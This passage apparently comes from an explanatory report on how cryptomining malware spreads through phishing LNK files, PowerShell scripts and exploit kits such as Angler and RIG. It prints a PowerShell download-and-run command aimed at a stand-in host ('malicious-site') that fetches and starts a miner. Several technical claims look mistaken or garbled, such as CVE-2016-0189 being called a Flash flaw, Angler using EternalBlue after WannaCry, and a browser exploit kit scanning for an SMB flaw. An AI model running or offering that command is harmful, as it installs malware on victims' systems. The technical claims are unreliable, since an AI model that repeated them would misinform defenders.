 - **PowerShell Scripts**:  
  Malicious scripts are embedded in phishing emails or LNK files to download and run miners.  
  - **Example Command**:  
    ```powershell  
    $url = 'http://malicious-site/coinminer.exe';  
    $wc = New-Object System.Net.WebClient;  
    $wc.DownloadFile($url, "$env:APPDATA\miner.exe");  
    Start-Process "$env:APPDATA\miner.exe";  
    ```  
  - **Obfuscation**: Scripts may use Base64 encoding or split execution across multiple stages to evade detection.  

- **Loki Integration**:  
  The Loki malware family combines phishing with cryptomining modules. Spear-phishing emails deliver Loki via LNK files, which then deploy Monero miners while maintaining persistence.  

| **Phishing Vector**       | **Delivery Method**          | **Evasion Technique**               |  
|---------------------------|------------------------------|--------------------------------------|  
| LNK Files                 | Email attachments/USB drives | Execute via Windows shortcuts        |  
| PowerShell Scripts        | Embedded in emails           | Obfuscated code, anti-sandbox checks |  
| Loki Malware              | Spear-phishing               | Rootkit-based process hiding         |  

---

### **2. Exploit Kits**  
**Mechanism**:  
Exploit kits automate the delivery of cryptomining malware by targeting unpatched vulnerabilities in software or systems.  

- **Angler & RIG Exploit Kits**:  
  - **Angler**: Historically targeted Flash and browser vulnerabilities. Post-WannaCry, some variants repurposed EternalBlue (CVE-2017-0144) to deploy miners.  
  - **RIG**: Focuses on malvertising-driven exploits (e.g., CVE-2016-0189 in Flash) to deliver miners like XMRig.  
  - **Payload Chain**:  
    1. Victim visits a compromised site or malvertisement.  
    2. Exploit kit scans for vulnerabilities (e.g., EternalBlue).  
    3. Deploys DoublePulsar backdoor to bypass firewalls.  
    4. Drops cryptominer payload (e.g., JavaScript miner embedded in `svchost.exe`).  

- **EternalBlue (CVE-2017-0144)**:  
  A critical SMB vulnerability exploited in the WannaCry ransomware. Attackers use it to execute arbitrary code on unpatched systems, enabling silent miner deployment.  

| **Exploit Kit** | **Primary Targets**       | **Key Exploits**               | **Cryptominer Payloads** |  
|-----------------|---------------------------|---------------------------------|--------------------------|  
| Angler          | Legacy software, Flash    | CVE-2015-3459 (Flash)          | XMRig, custom miners     |  
| RIG              | Browsers, IoT devices     | CVE-2016-0189 (Flash), EternalBlue | XMRig, Crypto-Loot       |  

---
